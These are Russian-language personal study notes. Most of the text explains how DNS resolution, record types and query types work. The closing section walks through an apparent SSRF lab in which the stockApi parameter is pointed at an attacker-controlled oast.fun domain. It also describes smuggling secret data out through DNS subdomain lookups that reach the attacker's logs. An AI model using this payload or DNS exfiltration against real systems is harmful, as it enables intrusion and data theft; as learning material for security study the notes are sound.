

DNS (Domain Name System) — это **система доменных имен**, которая работает как "телефонная книга интернета". Когда вы вводите `google.com` в браузере, DNS преобразует это удобное для человека имя в IP-адрес `142.250.185.206`, чтобы компьютер мог подключиться к нужному серверу.

DNS = DOMEN name SYSTEM

есть ip адресы и было бы сложно и непонятно наглядно где какой сайт среди ip адресов состоящих из цифр, поэтому придумали DNS который для каждого ip хранит свое уникальное имя сайта

при запросе имени сайта site.com ==DNS== ищет в базе данных такое имя и если находит то возвращает его IP адрес нам!

таких DNS серверов много и если наш ближайший днс не находит это имя то обращается к следующему днс по иеархии и так по всем, чтобы найти наш искомый сайт и вернуть нам его ip адресс 

### 🔄 Как работает DNS-запрос (на примере `google.com`)

1. **Запрос**: Вы в браузере набираете `google.com`.
    
2. **Обращение к резолверу**: Ваш компьютер спрашивает у резолвера провайдера: "Какой IP у `google.com`?"
    
3. **Поход к корневому серверу**: Резолвер спрашивает корневой сервер: "Где найти `.com`?" → Получает адрес TLD-сервера `.com`.
    
4. **Поход к TLD-серверу**: Резолвер спрашивает TLD-сервер `.com`: "Где найти `google.com`?" → Получает адрес авторитетного сервера Google.
    
5. **Поход к авторитетному серверу**: Резолвер спрашивает авторитетный сервер Google: "Какой IP у `google.com`?" → Получает ответ `142.250.185.206`.
    
6. **Возврат результата**: Резолвер кэширует ответ и передаёт его вашему компьютеру.
    
7. **Соединение**: Браузер использует IP-адрес, чтобы загрузить сайт.
    

Весь процесс обычно занимает **миллисекунды**.

###  Типы DNS-записей

Каждый домен в DNS имеет набор записей, как карточка в телефонной книге:

|Тип записи|Назначение|Пример|

|**A (Address)**|Основная запись, связывает имя с IPv4-адресом.|`google.com → 142.250.185.206`|
|**AAAA**|Связывает имя с IPv6-адресом.|`google.com → 2a00:1450:4010:c08::8a`|
|**CNAME (Canonical Name)**|Создает псевдоним, перенаправляет на другое имя.|`www.google.com → google.com`|
|**MX (Mail Exchange)**|Указывает серверы для приёма почты.|`gmail.com → alt4.gmail-smtp-in.l.google.com`|
|**TXT (Text)**|Хранит произвольный текст (часто для проверок).|`google.com → "v=spf1 include:_spf.google.com ~all"`|
|**NS (Name Server)**|Указывает авторитетные DNS-серверы для домена.|

-----
------

цепочка работы DNS кратко

   1. Браузер → Кэш ❌  (нет нужного ip)
   2. → Резолвер (8.8.8.8)  или 1.1.1.1
   3. → Кэш ❌ . 
   4. → Root сервер: "Спроси у .ru" 
   5. → TLD сервер (.ru): "Спроси у merionet.ru" 
   6. → Authoritative сервер: "IP = X.X.X.X" 
   7. ← Возврат по цепочке + сохранение в кэш

----

### **🔹 Типы DNS-запросов:** 
Recursive
Iterative
Inverse

| Тип           | Пример                                                 | Для чего                  |
| ------------- | ------------------------------------------------------ | ------------------------- |
| **Recursive** | "Дай IP [wiki.merionet.ru](https://wiki.merionet.ru/)" | Клиент → Резолвер         |
| **Iterative** | "Дай IP ИЛИ следующий сервер"                          | Резолвер → другие серверы |
| **Inverse**   | "Какой домен у 172.217.7.206?"                         | Обратный поиск            |

----

УЯЗВИМОСТИ NDS

DNS = справочник имён → IP
Уязвимость: подмена записей (DNS spoofing)

Каждый DNS-запрос содержит:
- Вопрос: "Где example.com?"
- Ответ: "IP = 93.184.216.34"
- И главное: ЗАПИСЫВАЕТСЯ В ЛОГИ!

Сеть компании:
├── HTTP → ❌ Блокируется (прокси, WAF)
└── DNS  → ✅ Разрешается (иначе интернет не работает)

## **Вот как это работает пошагово:**

### **Шаг 1
Есть приложение, которое принимает URL от пользователя и делает запрос:
stockApi=http://внутренний-сервер/admin (я могу менять ссылку в запросе)

### **Шаг 2: 
Вместо внутреннего сервера  указываем свой контролируемый домен:
stockApi=http://ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun

### **Шаг 3: Что делает сервер лабы**
**Когда сервер получает эту команду, он:**

1. "Мне нужно сделать запрос к ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun"
2. "Но я не знаю IP этого домена!"
3. → Смотрю в локальный DNS-кэш → Нет записи
4. → Обращаюсь к внешним DNS-серверам:
   "Эй, какой IP у ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun?"

### **Шаг 4: DNS-сервер получает запрос**

Сервис oast.fun (который под моим контролем + логи):
📨 Получен DNS-запрос: "ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun"
   От: [IP-адрес сервера лабы]
   Время: 15:30:25

**🎯 Вывод №1:** если сервер сделал запрос к моему ресурсу → SSRF уязвимость подтверждена!

# как воровать данные этим способом?

можно добавлять путь к файлам на сервере который атакуем

DNS-запрос  выглядит так:

"Какой IP у СЕКРЕТНЫЕ_ДАННЫЕ.ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun?"
         ↑
   Данные внутри вопроса!

и потом на подконтрольный мне хост прийдут логи  в фоомате
СЕКРЕТНЫЕ_ДАННЫЕ.ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun
время ---

------

